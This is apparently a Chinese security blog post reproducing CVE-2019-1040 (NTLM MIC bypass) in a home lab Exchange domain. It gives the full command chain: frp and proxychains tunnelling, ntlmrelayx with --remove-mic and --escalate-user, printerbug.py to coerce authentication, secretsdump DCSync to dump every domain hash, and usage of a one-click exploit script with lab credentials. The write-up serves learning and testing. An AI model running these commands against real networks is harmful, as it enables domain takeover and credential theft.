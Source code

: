 ```yaml
---
title: "Cve 2019 1040 Intranet Killer"
date: 2020-03-28T11:53:53+08:00
draft: flase
tags: [域渗透]
categories: [内网渗透]
comment: true
---
```

 CVE-2019-1040内网大杀器利用
<!--more-->

# CVE-2019-1040内网大杀器利用

- 前言

前两天闲来无事重新在虚拟机搭建了一个域环境，装上了EXCHANGE2013版本，于是想着顺便复现一下大杀器。

- 背景描述：

此漏洞在exchange_RCE未出现前是域内大杀器，此漏洞可运用于已有域账户但是exchange已修补rce漏洞情况下展开攻击。2019年6月12日，微软官方在6月的补丁日中发布了漏洞 CVE-2019-1040的安全补丁，攻击者可以利用该漏洞绕过NTLM MIC（消息完整性检查）。攻击者可以修改NTLM身份验证流程中的签名要求，完全删除签名验证，并尝试中继到目标服务器，不强制执行签名的服务器都易受到攻击。通过这种攻击能使攻击者在仅有一个普通域账号的情况下可远程控制 Windows 域内的任何机器，包括域控服务器。
	
- 漏洞利用条件

1.已有域成员账号密码，存在一台exchange服务
2.已有域成员账号密码，目标域内存在两个域。
3.**这里仅演示exchange**

- 漏洞细节

用任何AD帐户，通过SMB连接到目标Exchange服务器，并触发SpoolService错误。目标服务器将通过SMB回连至攻击者主机，使用ntlmrelayx将SMB身份验证中继到LDAP。使用中继的LDAP身份验证，为攻击者帐户授予DCSync权限。攻击者帐户使用DCSync转储AD中的所有密码哈希值。

- 环境搭建

```
DC（exchange）192.168.1.104
Windows7 域内机器 192.168.1.102
Atttcker:Mac 192.168.1.100
```

## 漏洞利用过程

### 漏洞利用

- VPS搭建frp代理服务端

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327162506.png)

- Win7搭建代理隧道

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327162700.png)

- Atttcker proxychains4

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327162820.png)

- ntlmrelayx.py进行中继攻击

>执行ntlmrelayx.py脚本进行NTLM中继攻击，设置SMB服务器并将认证凭据中继到LDAP协议。其中–remove-mic选项用于清除MIC标志，–escalate-user用于提升指定用户权限

```
proxychains4 python ntlmrelayx.py --escalate-user WIN7User -t ldap://AD.syst1m.local -smb2support --remove-mic --delegate-access
```
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327163009.png)

- Win7搭建代理隧道

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327163108.png)

- Atttcker frpc配置

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327163146.png)

- Proxifier添加隧道，代理frpc

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200313152252.png)

- Atttcker 启动 frpc

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327172910.png)

- printerbug.py脚本

>触发SpoolService的bug

```
python printerbug.py 域/用户名:密码@打印机服务ip 回连ip
```
```
proxychains4 python printerbug.py syst1m.local/WIN7User:win7user521.@192.168.1.104 192.168.1.102
```

**SpoolService的bug导致Exchange服务器回连到ntlmrelayx.py，即将认证信息发送到ntlmrelayx.py**

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327183658.png)

- ntlmrelayx.py结果

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327200545.png)

**secretsdump.py去dcsync**

- secretsdump

```
proxychains4 secretsdump.py syst1m.local/WIN7User@syst1m.local -just-dc
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327173405.png)

#### CVE-2019-1040一键化脚本

**来自evi1cg师傅写的利用工具**

```
https://github.com/Ridter/CVE-2019-1040
```

- 使用方式

```
python CVE-2019-1040.py -ah 192.168.1.100 -u 'WIN7User' -p 'win7user521.' -d 'syst1m.local' -th 192.168.1.103 192.168.1.104
```

- 漏洞利用

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327164746.png)

### 参考

```
https://github.com/Ridter/CVE-2019-1040
https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/
```